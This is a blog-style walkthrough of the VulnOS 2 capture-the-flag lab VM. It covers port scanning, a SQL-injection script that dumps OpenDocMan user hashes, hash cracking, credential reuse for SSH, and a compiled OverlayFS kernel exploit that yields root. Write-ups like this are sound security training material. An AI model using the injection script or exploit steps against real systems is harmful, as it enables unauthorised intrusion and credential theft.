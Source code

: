 ```yaml
---
layout: post
title: VulnOS 2 CTF Walkthrough
date: 2017-08-18
categories:
  - security
  - ctf
  - walkthrough
tags:
  - vulnos
  - vulnhub
---
```

## Service Discovery
A full port scan using `masscan` (`masscan -p 0-65535 10.2.0.104 --rate=500`) revealed three open ports: 22, 80 and 6667. Nmap subsequently fingerprinted  the services on these ports to be OpenSSH, Apache and ngircd:

```shell_session
root@kali:~# nmap -sS -sV -sC -p 6667,22,80 10.2.0.104
***
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 f5:4d:c8:e7:8b:c1:b2:11:95:24:fd:0e:4c:3c:3b:3b (DSA)
|   2048 ff:19:33:7a:c1:ee:b5:d0:dc:66:51:da:f0:6e:fc:48 (RSA)
|   256 ae:d7:6f:cc:ed:4a:82:8b:e8:66:a5:11:7a:11:5f:86 (ECDSA)
|_  256 71:bc:6b:7b:56:02:a4:8e:ce:1c:8e:a6:1e:3a:37:94 (EdDSA)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: VulnOSv2
6667/tcp open  irc     ngircd
MAC Address: 08:00:27:57:4F:AA (Oracle VirtualBox virtual NIC)
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel
***
```

Connecting to the IRC server confirmed the version number of ngircd in use [v21], which I was unable to find any known vulnerabilities for.

```
22:51 -!- Irssi: Looking up 10.2.0.104
22:51 -!- Irssi: Connecting to 10.2.0.104 [10.2.0.104] port 6667
22:51 -!- Irssi: Connection to 10.2.0.104 established
22:51 -!- Welcome to the Internet Relay Network rastating!~rastating@10.2.0.1
22:51 -!- Your host is irc.example.net, running version ngircd-21 (i686/pc/linux-gnu)
```

## Drupal
The index of the web server contained a landing page which pointed towards the `/jabc/` directory. A look at the markup in this directory quickly made it clear that it is a Drupal installation.

The first thing I checked out was the module directories (`/jabc/modules` and `/jabc/sites/all/modules`) and cross referenced them with the exploits listed on Exploit-DB for Drupal, but there were none that matched up.

Next, I used Burp's repeater to iterate pages 0-50 (`/jabc/?q=node/{{PAGE_ID}}`) to see if there was any interesting unlisted pages. Doing this led me to page 7 [`/jabc/?q=node/7`], which had the following content:

```xml
<p><span style="color:#000000">For security reasons, this section is hidden.</span></p>
<p><span style="color:#000000">For a detailed view and documentation of our products, please visit our documentation platform at /jabcd0cs/ on the server. Just login with guest/guest</span></p>
```

Navigating to `/jabcd0cs/` revealed an OpenDocMan installation.

## OpenDocMan
The OpenDocMan installation found in `/jabcd0cs/` was tagged as being version 1.2.7 which has known vulnerabilities (https://www.exploit-db.com/exploits/32075/), but first, I logged in as the `guest` account and attempted to upload a PHP file, but the MIME type wasn't allowed and seemingly couldn't be spoofed.

A quick test of the SQL injection vulnerability in `ajax_udf.php` proves that it is working, and adds the output into the combo box:

![OpenDocMan SQL Injection](/assets/images/vulnos-2-ctf-walkthrough/opendocman_sqli.png)

Rather than use this to traverse the database schema, I took a look at the [GitHub Project](https://github.com/opendocman/opendocman/) and found the database schema (https://gist.github.com/rastating/3153cec9de24fa995a069abe99e75c1d)

I then wrote a small Python script to dump the usernames and password hashes from the `odm_user` table using the SQL injection:

```python
import requests
import re

p = re.compile('value=999\s>(.+?)<\/option')
r = requests.get("http://10.2.0.104/jabcd0cs/ajax_udf.php", params={ 'q': "1", "add_value": "odm_user UNION SELECT 999, concat(username, 0x3a, password), 3,4,5,6,7,8,9 from odm_user" })

for m in re.finditer(p, r.text):
  print m.group(1)
```

When running the script, it found two accounts:

```
webmin:b78aae356709f8c31118ea613980954b
guest:084e0343a0486ff05530df6c705c8bb4
```

The `guest` account I already had access to, so presumably the `webmin` account was an administrator. I ran the hash through md5decrypt.org, which indicated the plain text was `webmin1980`.

I was able to now login to OpenDocMan as an administrator, by using `webmin:webmin1980`, and added some new mime types (`application/x-php` and `text/x-php`) to allow me to upload a PHP script, but although I was able to upload a PHP script, it was never being interpreted, and instead was being sent back as plain text.

Next, I tried the same credentials on the Drupal installation and found that they work there too, but there was seemingly no way to upload any PHP scripts in the Drupal admin area.

## Webmin Shell
As the credentials I had found in OpenDocMan were shared with Drupal, I decided to try using them to SSH into the VM, and was successful in doing so; giving me access to a low privilege shell.

Firstly, I checked to see if there were any sudo privileges for this account, but as I suspected, `webmin` wasn't in the sudoers file:

```shell_session
$ sudo -l
[sudo] password for webmin:
Sorry, user webmin may not run sudo on VulnOSv2.
```

The only thing in the home directory was a file named `post.tar.gz`, which contained a copy of Hydra; so nothing of use.

As there was password re-use across multiple applications, I took a look in the configuration file for OpenDocMan [`/var/www/html/jabcd0cs/config.php`], to see how it was connecting to MySQL:

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for [OpenDocMan */
define('DB_NAME', 'jabcd0cs');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASS', 'toor');
```

In the hope the system `root` user is sharing the same password as the MySQL one, I tried to `su` with the password `toor`, but the switch failed.

Next, I took a look at the kernel version, and identified that the VM was vulnerable to the OverlayFS exploit (https://www.exploit-db.com/exploits/37292/).

I grabbed the exploit, compiled it, ran it, and proceeded to get the flag:

```shell_session
webmin@VulnOSv2:~$ gcc overlayfs.c -o ofs
webmin@VulnOSv2:~$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# cd /root
# ls
flag.txt
# cat flag.txt
Hello and welcome.
You successfully compromised the company "JABC" and the server completely !!
Congratulations !!!
Hope you enjoyed it.

What do you think of A.I.?
#
```
